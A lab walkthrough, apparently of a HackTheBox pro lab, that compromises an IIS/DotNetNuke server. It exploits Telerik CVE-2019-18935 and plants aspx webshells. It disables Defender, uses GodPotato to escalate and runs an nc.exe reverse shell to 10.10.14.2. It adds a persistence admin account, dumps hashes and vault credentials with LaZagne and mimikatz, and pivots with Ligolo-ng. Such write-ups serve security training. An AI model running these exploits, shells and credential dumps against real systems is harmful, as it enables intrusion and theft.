Now here we can run our beloved Rustscan and check all the available ports over the TCP protocoll.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# rustscan -a 10.10.110.10 -- -A -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.110.10:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -T4" on ip 10.10.110.10
Depending on the complexity of the script, results may take some time to appear.
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 19:17 CEST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 0.00s elapsed
Initiating Ping Scan at 19:17
Scanning 10.10.110.10 [4 ports]
Completed Ping Scan at 19:17, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:17
Completed Parallel DNS resolution of 1 host. at 19:17, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 19:17
Scanning 10.10.110.10 [1 port]
Discovered open port 80/tcp on 10.10.110.10
Completed SYN Stealth Scan at 19:17, 0.04s elapsed (1 total ports)
Initiating Service scan at 19:17
Scanning 1 service on 10.10.110.10
Completed Service scan at 19:17, 6.21s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.110.10
Retrying OS detection (try #2) against 10.10.110.10
Initiating Traceroute at 19:17
Completed Traceroute at 19:17, 0.04s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 19:17
Completed Parallel DNS resolution of 2 hosts. at 19:17, 0.03s elapsed
DNS resolution of 2 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.110.10.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 5.04s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 0.14s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:17
Completed NSE at 19:17, 0.00s elapsed
Nmap scan report for 10.10.110.10
Host is up, received reset ttl 125 (0.029s latency).
Scanned at 2024-06-10 19:17:18 CEST for 15s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
| http-robots.txt: 30 disallowed entries 
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
| /DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/ /js/ 
| /Portals/ /Providers/ /Resources/ContentRotator/ 
| /Resources/ControlPanel/ /Resources/Dashboard/ /Resources/FeedBrowser/ 
| /Resources/OpenForceAd/ /Resources/Search/ /Resources/Shared/ 
| /Resources/SkinWidgets/ /Resources/TabStrip/ /Resources/Widgets/ 
|_/Activity-Feed/userId/ /*/ctl/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
```

I see only a service on port 80, specifically a DNN?



And what about the UPD ports instead?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# nmap -sU -F 10.10.110.10            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 19:19 CEST
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 66.50% done; ETC: 19:19 (0:00:10 remaining)
Nmap scan report for 10.10.110.10
Host is up (0.043s latency).
Not shown: 98 open|filtered udp ports (no-response)
PORT    STATE  SERVICE
80/udp  closed http
443/udp closed https

Nmap done: 1 IP address (1 host up) scanned in 33.50 seconds
```

I am pretty sure this shouldn't be a Windows based server as otherwise Enum4linux-ng should have footprinted atleast the hostname.



What if we check for possible hidden files? I see a flag.txt



And some login portal?



And like this we can grab our first flag



Now checking specifically that Telerik module seems like there is a old CVE for that?



https://hackerone.com/reports/838196

&nbsp;

&nbsp;

We can also try to register a username?r



Unfortunately we need to get a login approval so we can't move on so far!



Now I think we will need to exploit this Telerik since we know so far it's the only juicy information, and we have no other choice hehe.

# Getting my first foothold

Now here I see that the most reliable CVE sems this one: https://github.com/noperator/CVE-2019-18935/tree/master

And this with all the possible versions: https://github.com/murataydemir/CVE-2019-18935



Now this task took me a while cause I had to install Visual studio on my Windows dummy machine and all the C#, C++ dev kits that are well over 12gb.

But eventually I managed to point the builddll.bat script to my PATH config as described in the article:



And then just compiling the sleep.c and the revshell.c via the command (compiledll.bat ./library.c), this script will compile in mixed mode.



Now the big part is to test the x64 sleep and if the application hangs and respond after more than 10sec then we might be able to gain a RCE. The tedious part here is to footprint the exact version used by the Telerik WEBGui, and in the first link should be able to do by fuzzing the major versions(by macro release years, this lowers the possibilites by a lot!)

https://github.com/noperator/CVE-2019-18935/tree/master?tab=readme-ov-file#brute-force-telerik-ui-version

And seems like the version might be a 2013 year?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2019-18935-master]
└─# for YEAR in $(seq 2013 2018); do
    echo -n "$YEAR: "
    python3 CVE-2019-18935.py -t -v "$YEAR" -p /dev/null -u http://10.10.110.10/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null |
    grep -oE "Telerik.Web.UI, Version=$YEAR\.[0-9\.]+" ||
    echo
done
2013: Telerik.Web.UI, Version=2013.2.717.40
2014: 
2015: 
2016: 
2017: 
2018:
```

This enables us to the following possible versions avalaible:


So this versions basically and I expect that one of these must work!

```
2013.1.220
2013.1.403
2013.1.417
2013.2.611
2013.2.717
2013.3.1114
2013.3.1324
```

And running the first results in basically 0 sec(command removed from unusefull stuff):

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2019-18935-master]
└─# python3 CVE-2019-18935.py -u http://10.10.110.10/Telerik.Web.UI.WebResource.axd?type=rau -v 2013.1.220 -f 'C:\Windows\Temp' -p /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/sleep-213508,12-amd64.dll
[*] Local payload name:  /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/sleep-213508,12-amd64.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1718049650.1985865.dll

<!DOCTYPE html>
<SNIP>
    </body>
</html>


[*] Response time: 0.08 seconds
```

This means we need to find the other versions and move on, until we find the right one! And after some try and error seems like the specific version is the: **2013.2.717**

```
└─# python3 CVE-2019-18935.py -u http://10.10.110.10/Telerik.Web.UI.WebResource.axd?type=rau -v 2013.2.717 -f 'C:\Windows\Temp' -p /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/sleep-213508,12-amd64.dll
[*] Local payload name:  /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/sleep-213508,12-amd64.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1718049847.678971.dll
{'fileInfo': {'ContentLength': 105984,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1718049847.678971.dll',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2013.2.717.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1718049847.678971.dll'}}
[*] Triggering deserialization for .NET v4.0.0.0...
<SNIP>
[*] Response time: 10.17 seconds
```

Knowing this now we need to be sure of this, since the library can be used only one time, otherwise we need to compile it back again!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2019-18935-master]
└─# python3 CVE-2019-18935.py -u http://10.10.110.10/Telerik.Web.UI.WebResource.axd?type=rau -v 2013.2.717 -f 'C:\Windows\Temp' -p /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/reverse-shell-213556,72-amd64.dll
[*] Local payload name:  /home/millycash/Downloads/Cybernetics/CVE-2019-18935-master/payloads/reverse-shell-213556,72-amd64.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1718050374.5798957.dll

{'fileInfo': {'ContentLength': 133120,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1718050374.5798957.dll',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2013.2.717.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1718050374.5798957.dll'}}

[*] Triggering deserialization for .NET v4.0.0.0...
```

And this results in a total success!



Now checking our permissions we can see that our user(the one that is running IIS) have impersonation permissions which is sign of possible "PrintSpoofer, GodPotato & many more"

```
c:\>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                    SID     
============================ ========
nt authority\network service S-1-5-20


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                            Attributes                                        
====================================== ================ ============================================================== ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                     
Everyone                               Well-known group S-1-1-0                                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                      Alias            S-1-5-32-568                                                   Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                        Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\DotNetNukeAppPool          Well-known group S-1-5-82-2509074736-2823226210-3382280688-2640573866-389213758 Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Before that I want to look around for other juicy stuff and seems like there is an Admin VBS script under the IIS folder:



I used chatgpt to parse those files and search for hidden hardcoded credentials but nothing came out so far and these seems more like standard admin scripts.

Next checking the DNN we can see some backup folders:



Now I wasn't able to get anything juicy here so I will instead move to PE since I don't see other users on the machine!



We can footprint the machine as **CYBERNETICS-CYWEBDW**?

before doing anything I will upload a aspx webshell so I can reach the machine without the need to recompile the Telerik Deserialization everytime!



Now copyng those under **C:\\DotNetNuke** should do the trick

```
c:\DotNetNuke>copy C:\Temp\cmdasp.aspx .
copy C:\Temp\cmdasp.aspx .
        1 file(s) copied.

c:\DotNetNuke>copy C:\Temp\antak.aspx .
copy C:\Temp\antak.aspx .
        1 file(s) copied.
```

Next we can login by using the default creds:



And it works baby!



Having a secundary plan now we can upload PrintSpoofer.exe and gain PE to Admin so we can get to Administrator!

Seems like the defender is messsing with us?



Seems like yes, but can we disable it?



This is bad, I guess we have to implement some kind of obfuscation then? But seems like I can use [Godpotato](https://github.com/BeichenDream/GodPotato) instead to perform the same trick!



As you see we elevated all the way up to nt System! Now we can upload a nc.exe copy and we should be gucci!

```
GodPotato -cmd "C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.2 443"
[*] CombaseModule: 0x140727367827456
[*] DispatchTable: 0x140727370133632
[*] UseProtseqFunction: 0x140727369510336
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\34ebf4b3-d5ac-45d6-88a7-4becfd040279\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004402-09ac-ffff-59ec-84f8d42cdbbe
[*] DCOM obj OXID: 0xd714f8cb387db724
[*] DCOM obj OID: 0xcbd082849b0dbe2e
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 896 Token:0x812  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5212
```



before doing anything I will create a new username and add it to local admins to create a sort of persistence.

And now we can get the second flag, but seems like it isn't under Administrators?

Lastly we can see that the machine have only one IP on the internal network?

```
C:\>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9a4f:c1f2:cbd2:da6b%7
   IPv4 Address. . . . . . . . . . . : 10.9.20.13
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.9.20.1

C:\>
```

I will disable the defender temporarly:



And upload Lazagne.exe and Winpeas.exe

But Lazagne.exe found nothing so far:

```
PS C:\temp> ./Lazagne.exe all
./Lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 36673039-178d-4db8-ba9a-e28430aee081
[+] System masterkey decrypted for 58956d95-8840-4104-ab9d-0c5051a9e0d4
[+] System masterkey decrypted for 60382a89-472a-4b88-afa6-b3dca6cd79f8
[+] System masterkey decrypted for 6bce4e15-1408-489e-8d80-26117a429690
[+] System masterkey decrypted for 7aec2c2c-77f1-4d6b-84c4-6ec96e076cbb
[+] System masterkey decrypted for 7e674964-a548-4b15-a415-51140a75cfc1
[+] System masterkey decrypted for a7361cbc-4b97-4cae-afd5-abcf5d8ebee5
[+] System masterkey decrypted for bccda81a-3155-4f44-844d-3a997042dc8c
[+] System masterkey decrypted for bd06098a-8455-419e-bbea-88f13bb1e136
[+] System masterkey decrypted for cf4a8ee7-8be6-403d-8eb1-287ecfd9643c
[+] System masterkey decrypted for e56ce9bb-9deb-46f1-84ee-044629b40bc7

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
yovecio:1001:aad3b435b51404eeaad3b435b51404ee:a5bcd209fb3d31376955f8a129f55bfa:::

------------------- Lsa_secrets passwords -----------------

DPAPI_SYSTEM
0000   01 00 00 00 9C 09 F4 2D C8 4F 51 9E 22 55 10 80    .......-.OQ."U..
0010   69 F1 16 79 67 44 24 14 F1 A7 49 13 8F 65 93 3B    i..ygD$...I..e.;
0020   EB 54 42 6F 43 05 CD 5D 73 30 CC 20                .TBoC..]s0. 

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   26 CF BE 34 E8 89 95 FD 6D 9B D7 BE 32 FD 72 3C    &..4....m...2.r<
0020   78 C4 81 EC FF 96 71 F8 C3 5C 38 E5 1B 86 49 D8    x.....q...8...I.
0030   4A 78 8D FD 45 D4 5B DE 6F 95 34 B2 E3 7E 78 99    Jx..E.[.o.4..~x.
0040   9C 54 89 69 41 5A EA B3 4C 60 95 AD E9 0C E9 35    .T.iAZ..L`.....5
0050   2F 69 C5 F2 5E 3E B9 6D 81 00 86 FD 9C 2D 76 72    /i..^>.m.....-vr

_SC_MSSQL$SQLEXPRESS
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   2B F6 0B 0F 50 BF 6C 92 B8 11 8F 5E 77 D1 E8 84    +...P.l....^w...

_SC_SQLTELEMETRY$SQLEXPRESS
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   E1 40 4E FB BE 1F 72 6A 18 96 A6 E7 F2 B6 0F 57    .@N...rj.......W


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{AC2CDA75-A8D0-4367-B4B9-320B0C865A05}
Login: SERVER-2019\Administrator


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 13.671871185302734
```

Checking with winpeas.bat machine isn't domain joined;  


But there is a D: disk, interesting!



No strange SW installed:



I see some saved creds?



But d disk is not ready?



&nbsp;

# The following day

Now yesterday I had to stop since it was late but today come with some considerations:

- Might not be unrealistic that Admin flag isn't on this machine, there are 28VMs and 25Flags so some might be missing
- These other machines I was able to see the HTTP but not reach might not be reachable from the 10.10.110.10/24 subnet as we this machine held only one NIC and no traces of the DMZ? subnet... This might mean that is only a pointed(Virtual IP) from the firewall that opens specific ports from the internal Network 10.9.20.0/24 and these machines will eventually be reachable from there instead?

Without further do I will run **Ligolo-Ng** in order to be able to route from the pivot machine but reach the internal ports via port forward  directly in **Ligolo-Ng** itself!

```
//From Vitctim
PS C:\temp> ./agent.exe -connect 10.10.14.2:443 -ignore-cert

---------------------------
//Adding the routes needed on my machine
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2019-18935-master]
└─# sudo ip route add 240.0.0.1/32 dev ligolo
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2019-18935-master]
└─# sudo ip route add 10.9.20.0/24 dev ligolo

---------------------------
//My machine(I need to use common ports like 443/80 otherwise will not works as the firewall is messing up)
//And enjoy!
ligolo-ng » INFO[0117] Agent joined.                                 name="NT AUTHORITY\\NETWORK SERVICE@cywebdw" remote="10.10.110.10:49797"
ligolo-ng » 
ligolo-ng » session 
? Specify a session : 1 - #1 - NT AUTHORITY\NETWORK SERVICE@cywebdw - 10.10.110.10:49797
[Agent : NT AUTHORITY\NETWORK SERVICE@cywebdw] » start 
[Agent : NT AUTHORITY\NETWORK SERVICE@cywebdw] » INFO[0305] Starting tunnel to NT AUTHORITY\NETWORK SERVICE@cywebdw
```

Now using the hardcoded IP we can get itnto RDP!



next in diskpart.exe we can appure that the D: disk was most likely the DVD drive.



From the Ligolo we can now reach the internal ports!

```
└─# rustscan -a 240.0.0.1 -- -A -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 240.0.0.1:80
Open 240.0.0.1:135
Open 240.0.0.1:445
Open 240.0.0.1:1433
Open 240.0.0.1:3389
Open 240.0.0.1:5985
```

I will again disable temporarly the realtime scan feature by defender so i can upload mimikatz.exe and perform a LSASS.exe dump!



And now we can dump the sam:

```
mimikatz # lsadump::sam
Domain : CYWEBDW
SysKey : 6f9ec047e0cc2be91f5463aeb3189568
Local SID : S-1-5-21-974100046-684349727-4186098362

SAMKey : 7f23249058837880f70a9947d9f377f3

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 4e63f2ecad6ac1c809564e26ea764999

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 590f66637cfb0f77b3a324949d2d447f

* Primary:Kerberos-Newer-Keys *
    Default Salt : CYWEBDWAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 612489e6d29093a964afbf66e26e48f8113cfae5bc8af013a9b39bb0b7256210
      aes128_hmac       (4096) : b8465b1f047fb2ee4eaf0a61a81b62ab
      des_cbc_md5       (4096) : 54736b708f4a7a2a
    OldCredentials
      aes256_hmac       (4096) : 54962f949cb357ffd89e6de25bc7cacb251d87f4d5491ccc855d37bd0ca65a24
      aes128_hmac       (4096) : 90924d09cf6fc39fda271acbc4c2d23f
      des_cbc_md5       (4096) : 5e5b0123a458319e
    OlderCredentials
      aes256_hmac       (4096) : 6711c7d04682a19fc56ec61247af613ac480db610031f29d534a5fd4de524d85
      aes128_hmac       (4096) : acf90b2d99705ddea6aa5282c57e6c40
      des_cbc_md5       (4096) : a71a048af1b9f149

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : CYWEBDWAdministrator
    Credentials
      des_cbc_md5       : 54736b708f4a7a2a
    OldCredentials
      des_cbc_md5       : 5e5b0123a458319e


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

RID  : 000003e9 (1001)
User : yovecio
  Hash NTLM: a5bcd209fb3d31376955f8a129f55bfa

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : c91f54b1669c140afd0ee9f916b6e1ad

* Primary:Kerberos-Newer-Keys *
    Default Salt : CYWEBDWyovecio
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 94c57134c30c7289c22bbe1b38887ef9facb6a6d1c301be7df11601b9af720e7
      aes128_hmac       (4096) : b3c93c6cf4808b3b55ee3fe6a257e795
      des_cbc_md5       (4096) : 58640db6c4b5c8f2

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : CYWEBDWyovecio
    Credentials
      des_cbc_md5       : 58640db6c4b5c8f2
```

But we had  already this stuff, I am more interested into LSASS.exe secrets...

```
mimikatz # lsadump::secrets
Domain : CYWEBDW
SysKey : 6f9ec047e0cc2be91f5463aeb3189568

Local name : CYWEBDW ( S-1-5-21-974100046-684349727-4186098362 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {73a07039-a2b2-f796-07e0-5b742fb9f1dc}
  [00] {73a07039-a2b2-f796-07e0-5b742fb9f1dc} a6fbd53fc2f8cc3ba7d82e50919b73356b01b5c091172a3c9c117114feffc5b1

Secret  : DefaultPasswordERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO

old/text: 6IVx7cxECM6m57WVjrqfH1gvluKnvN

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 9c 09 f4 2d c8 4f 51 9e 22 55 10 80 69 f1 16 79 67 44 24 14 f1 a7 49 13 8f 65 93 3b eb 54 42 6f 43 05 cd 5d 73 30 cc 20
    full: 9c09f42dc84f519e2255108069f1167967442414f1a749138f65933beb54426f4305cd5d7330cc20
    m/u : 9c09f42dc84f519e2255108069f1167967442414 / f1a749138f65933beb54426f4305cd5d7330cc20
old/hex : 01 00 00 00 2f 59 05 b8 05 d0 98 a6 80 32 79 0c e7 66 88 27 c3 8c 1b d8 05 82 23 cf 64 4a 39 c1 3b f2 2b 6f 5b 58 aa 07 aa eb b8 9b
    full: 2f5905b805d098a68032790ce7668827c38c1bd8058223cf644a39c13bf22b6f5b58aa07aaebb89b
    m/u : 2f5905b805d098a68032790ce7668827c38c1bd8 / 058223cf644a39c13bf22b6f5b58aa07aaebb89b

Secret  : NL$KM
cur/hex : 26 cf be 34 e8 89 95 fd 6d 9b d7 be 32 fd 72 3c 78 c4 81 ec ff 96 71 f8 c3 5c 38 e5 1b 86 49 d8 4a 78 8d fd 45 d4 5b de 6f 95 34 b2 e3 7e 78 99 9c 54 89 69 41 5a ea b3 4c 60 95 ad e9 0c e9 35
old/hex : 26 cf be 34 e8 89 95 fd 6d 9b d7 be 32 fd 72 3c 78 c4 81 ec ff 96 71 f8 c3 5c 38 e5 1b 86 49 d8 4a 78 8d fd 45 d4 5b de 6f 95 34 b2 e3 7e 78 99 9c 54 89 69 41 5a ea b3 4c 60 95 ad e9 0c e9 35

Secret  : _SC_MSSQL$SQLEXPRESS / service 'MSSQL$SQLEXPRESS' with username : NT Service\MSSQL$SQLEXPRESS

Secret  : _SC_SQLTELEMETRY$SQLEXPRESS / service 'SQLTELEMETRY$SQLEXPRESS' with username : NT Service\SQLTELEMETRY$SQLEXPRESS

mimikatz #
```

But the results are a bit off so i will manually dump the secrets registry hives, and parse them manually:



And now we can parse them in mimikatz.exe



Still same issue but what I am interested into is to dumping the password vault?

```
mimikatz # vault::cred
TargetName : Domain:batch=TaskScheduler:Task:{AC2CDA75-A8D0-4367-B4B9-320B0C865A05} / <NULL>
UserName   : SERVER-2019\Administrator
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential :
Attributes : 0
```

Apparetly this is indeed possible via:

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#vault

```
mimikatz # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{AC2CDA75-A8D0-4367-B4B9-320B0C865A05} / <NULL>
UserName   : SERVER-2019\Administrator
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : 6IVx7cxECM6m57WVjrqfH1gvluKnvN
Attributes : 0


mimikatz #
```

Now I feel happy to move on!

&nbsp;

# EDIT

Seems like I was kinda sloppy and missed to enumerate the DB where we could indeed find some credentials?

```
msf6 exploit(windows/mssql/mssql_linkcrawler) > run

[*] Started reverse TCP handler on 192.168.88.189:4444 
[*] 10.9.20.13:1433 - -------------------------------------------------
[*] 10.9.20.13:1433 - Start time : 2024-06-11 14:01:10.853439456 +0200
[*] 10.9.20.13:1433 - -------------------------------------------------
[*] 10.9.20.13:1433 - Attempting to connect to SQL Server at 10.9.20.13:1433...
[+] 10.9.20.13:1433 - Successfully connected to CYWEBDW\SQLEXPRESS
[+] 10.9.20.13:1433 - Sysadmin on CYWEBDW\SQLEXPRESS
[*] 10.9.20.13:1433 - 	 - xp_cmdshell is not enabled on CYWEBDW\SQLEXPRESS... Trying to enable
[*] 10.9.20.13:1433 - 	 - Enabled xp_cmdshell on CYWEBDW\SQLEXPRESS
[*] 10.9.20.13:1433 - 	 - Disabling xp_cmdshell on CYWEBDW\SQLEXPRESS
[*] 10.9.20.13:1433 - 
[*] 10.9.20.13:1433 - -------------------------------------------------
[*] 10.9.20.13:1433 - Crawling links on CYWEBDW\SQLEXPRESS...
[*] 10.9.20.13:1433 - Links found: 1
[*] 10.9.20.13:1433 - -------------------------------------------------
[+] 10.9.20.13:1433 - Link path: CYWEBDW\SQLEXPRESS -> m3sqlw.m3c.local (Sysadmin!)
[*] 10.9.20.13:1433 - -------------------------------------------------
[*] 10.9.20.13:1433 - End time : 2024-06-11 14:01:13.139938224 +0200
[*] 10.9.20.13:1433 - -------------------------------------------------
[+] 10.9.20.13:1433 - Results have been saved to: /root/.msf4/loot/20240611140113_default_10.9.20.13_crawled_links_401368.txt
[*] Exploit completed, but no session was created.
msf6 exploit(windows/mssql/mssql_linkcrawler) >
```

Seems like we have a link between the CYBERNETICS-CYWEBDW and the internal SQL on CYBERNETICS-M3SQLW, and we gave a Sysadmin path. We can also do this manually via DB:



Now to make this work can have 2 possibilties:

- Manually but we will catch the request via nc on the first machine
- Automatically via MSF but we need to setup a listener that will get us back a revshell in Metasploit

If we want to use metasploit we need to setuop a listener so we can catch back the shell!



In the metepreter we need to point now to the 10.9.20.13:8080 which is the internal machine ip. But this is failing...

